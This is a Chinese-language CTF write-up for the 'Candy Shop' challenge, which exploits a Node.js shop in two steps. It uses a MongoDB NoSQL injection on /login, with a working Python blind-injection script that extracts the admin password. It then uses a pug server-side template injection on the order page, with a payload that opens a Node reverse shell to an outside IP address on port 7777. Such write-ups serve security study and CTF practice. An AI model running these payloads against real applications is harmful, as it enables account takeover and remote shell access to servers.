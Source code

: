 ## Candy Shop

**题目难度: Easy**

**知识点: NoSQL注入(mongodb) / pug SSTI**

**题目提供Dockefile下载**

商店可以注册和登录 但是新注册的账号都是没有激活的 2333

```javascript
static add = async (username, password, active) => {
    let user = {
        username: username,
        password: password,
        active: active
    }
    let client = await connect()
    await client.db('test').collection('users').insertOne(user)
}
```

翻源码可以看到有一个激活的账号 但是你不知道密码>_<

```javascript
let users = client.db('test').collection('users')
users.deleteMany(err => {
    if (err) {
        console.log(err)
    } else {
        users.insertOne({
            username: 'rabbit',
            password: process.env.PASSWORD,
            active: true
        })
    }
})
```

/login路由留了一个NoSQL注入

```javascript
router.post('/login', async (req, res) => {
    let {username, password} = req.body
    // 平平无奇的NoSQL注入
    let rec = await db.Users.find({username: username, password: password})
    if (rec) {
        // 这里算是一个提示
        if (rec.username === username && rec.password === password) {
            res.cookie('token', rec, {signed: true})
            res.redirect('/shop')
        } else {
            res.render('login', {error: 'You Bad Bad >_<'})
        }
    } else {
        res.render('login', {error: 'Login Failed!'})
    }
})
```

可以通过两个不同回显来盲注出密码

exp

```python
import requests
from urllib.parse import quote

url = 'http://localhost:3000/user/login'

result = ''
for i in range(1, 50):
	ascii_min = 0
	ascii_max = 128
	while ascii_max - ascii_min > 1:
		mid = (ascii_min + ascii_max) // 2
		data = 'username=rabbit&password[$lt]=' + quote(result + chr(mid))
		r = requests.post(url, data=data, headers={'Content-Type': 'application/x-www-form-urlencoded'})
		if 'Bad' in r.text:
			ascii_max = mid
		else:
			ascii_min = mid
		print(ascii_min, ascii_max, mid)
	if ascii_min == 0:
		break
	result += chr(ascii_min)
	print(result)

print(result)
```

进入商店后

确认订单界面留了一个明显的SSTI 

```javascript
router.post('/order', checkLogin, checkActive, async (req, res) => {
    let {user_name, candy_name, address} = req.body

    res.render('confirm', {
        user_name: user_name,
        candy_name: candy_name,
        address: pug.render(address)
    })
})
```

模板引擎是pug

参考

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/

payload (因为环境没有bash 所以用node反弹shell 2333)

```
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('echo \'(function(){var net = require("net"),cp = require("child_process"),sh = cp.spawn("/bin/sh", []);var client = new net.Socket();client.connect(7777, "8.135.15.73", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})();\'|node -')}()}
```

